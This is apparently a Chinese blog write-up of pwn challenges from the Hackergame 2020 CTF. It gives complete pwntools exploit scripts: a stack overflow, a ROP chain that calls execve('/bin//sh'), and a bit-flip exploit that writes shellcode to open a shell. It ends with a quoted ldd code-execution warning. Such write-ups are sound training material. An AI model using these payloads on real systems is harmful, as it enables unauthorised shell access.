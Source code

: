 ```yaml
---
title: hackergame
date: 2020-11-08 21:58:45
tags: 
 - PWN
 - CTF
categories: "PWN"
banner_img: /pic/hackergame2020.jpg
---
```


玩了一次hackergamer，这里我只给出pwn的解答，也可以去看官方的[hackergame2020-writeups](https://github.com/USTC-Hackergame/hackergame2020-writeups)

# 生活在博弈树上

<!-- more -->

两种获得flag的方法：

- 覆盖胜利判断条件
- 栈溢出-ROP

## exp

- 覆盖胜利条件

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level="DEBUG"
context.arch="amd64"

local=0
#gdb.attach(p)
if local:
	p=process('./pwn')
	elf = ELF('./pwn')
else:
	p=remote('202.38.93.111',10141)
	elf = ELF('./pwn')

offset=0x90-1-5
payload='654:MEQCIEf6j+LhgeLSPOeZC/OwkdH+wHB9nXZHJxMNfAFy8OH5AiAnpcECcSQS8aCnVRKH+poDokge2AodYTIsFcTix+tShA=='
p.sendline(payload)
payload='(1,1)'+'a'*offset+p64(0x1)
p.send(payload)

p.interactive()
```

- ROP

```python
from pwn import *
from struct import pack
from LibcSearcher import LibcSearcher
context.log_level="DEBUG"
context.arch="amd64"

local=0
#gdb.attach(p)
if local:
	sh=process('./pwn')
	elf = ELF('./pwn')
else:
	sh=remote('202.38.93.111',10141)
	elf = ELF('./pwn')
offset=0x90-5
payload='654:MEQCIEf6j+LhgeLSPOeZC/OwkdH+wHB9nXZHJxMNfAFy8OH5AiAnpcECcSQS8aCnVRKH+poDokge2AodYTIsFcTix+tShA=='
sh.sendline(payload)
#gdb.attach(p)
# Padding goes here
p = '(1,1)'+'a'*offset+p64(0x1)
p += pack('<Q', 0x0000000000407228) # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e0) # @ .data
p += pack('<Q', 0x000000000043e52c) # pop rax ; ret
p += '/bin//sh'
p += pack('<Q', 0x000000000046d7b1) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000407228) # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e8) # @ .data + 8
p += pack('<Q', 0x0000000000439070) # xor rax, rax ; ret
p += pack('<Q', 0x000000000046d7b1) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x00000000004017b6) # pop rdi ; ret
p += pack('<Q', 0x00000000004a60e0) # @ .data
p += pack('<Q', 0x0000000000407228) # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e8) # @ .data + 8
p += pack('<Q', 0x000000000043dbb5) # pop rdx ; ret
p += pack('<Q', 0x00000000004a60e8) # @ .data + 8
p += pack('<Q', 0x0000000000439070) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000464095) # syscall ; ret
sh.sendline(p)
#gdb.attach(p)
sh.interactive()
```

# 超精准的宇宙射线

真的就是只能改1bit呗

我第一次的思路是只改1bit是不可能获得shell的，有没有办法能重复调用bitflip，于是就在call exit的代码处试了试，结果发现回到了start函数，这样我就能无限修改bit了。

继续分析，在调试的时候发现在0x401000-0x402000段为rwx段，那这个绝对就是我们要写入shellcode的地方了。在call exit的时候会调用0x4010c0的代码，所以我们就在这里写shellcode。

害，python没学好，自己手算了20多个字节，写了几百个比特的翻转。

这里我遇到了问题，我的非常确定的将每个bit正确的翻转了，我在0x401020的位置写入了‘/bin/sh’字符串，在0x401030处写了shellcode，但很奇怪，我动态调试了一下，发现0x401030处的代码没有发生变化，而0x401020处却正确的存入了字符串。

初步猜测是因为我调用的start函数的原因

## exp

```python
#!/usr/bin/env python3
from pwn import *

context.log_level='debug'
r = remote('202.38.93.111', 10231)
r.recvuntil("token: ")
r.sendline("654:MEQCIEf6j+LhgeLSPOeZC/OwkdH+wHB9nXZHJxMNfAFy8OH5AiAnpcECcSQS8aCnVRKH+poDokge2AodYTIsFcTix+tShA==")
def flip(addr, bit):
    r.recvuntil('flip?')
    r.sendline(hex(addr) + ' ' + str(bit))

target = 0x401295
flip(target + 1, 6)

shellcode_start = 0x4010c0
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
e = ELF('./pwn')
for i in range(len(shellcode)):
    b = shellcode[i] ^ e.read(shellcode_start + i, 1)[0]
    for j in range(8):
        if (b >> j) & 1:
            flip(shellcode_start + i, j)
flip(target + 1, 6)

r.interactive()
```

# 动态链接库检查器

这个是真的是没想到，ldd命令是有漏洞的。

 **(CVE-2019-1010023) - ldd should protect against programs whose segments overlap with the loader itself**

请注意，在某些情况下（例如，程序指定了ld-linux.so以外的ELF解释器），某些版本的ldd可能会尝试通过直接执行程序来尝试获取依赖项信息，从而可能导致执行程序的ELF解释器中定义的任何代码，还可能导致执行程序本身。 （例如，在2.27之前的glibc版本中，上游ldd实现做到了这一点，尽管大多数发行版提供的修改版本都没有。）因此，切勿在不受信任的可执行文件上使用ldd，因为这可能会导致执行任意代码。处理不受信任的可执行文件时，更安全的选择是：$ objdump -p / path / to / program | grep需要，但是，这种选择只显示了可执行文件的直接依赖关系，而ldd显示了可执行文件的整个依赖关系树。